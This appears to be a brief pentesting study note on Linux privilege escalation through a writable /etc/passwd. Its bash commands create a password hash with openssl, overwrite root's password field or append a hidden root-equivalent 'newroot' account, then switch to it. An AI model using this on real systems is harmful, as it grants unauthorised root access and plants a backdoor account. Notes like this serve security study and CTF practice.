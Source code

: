 -- -
[[Weak File Permissions| Enum]] `/etc/passwd` file permissions, if writable:
```bash
# make a new passwd hash
openssl passwd <passwd>

# then open /etc/passwd
vim /etc/passwd

# you can replace the x for the root user with the hash you created
# or you can copy the root line, paste it at the end and change the username to something like "newroot" and replace the x with the hash.

# then just switch users and use the password hashed. 
su root
su newroot
```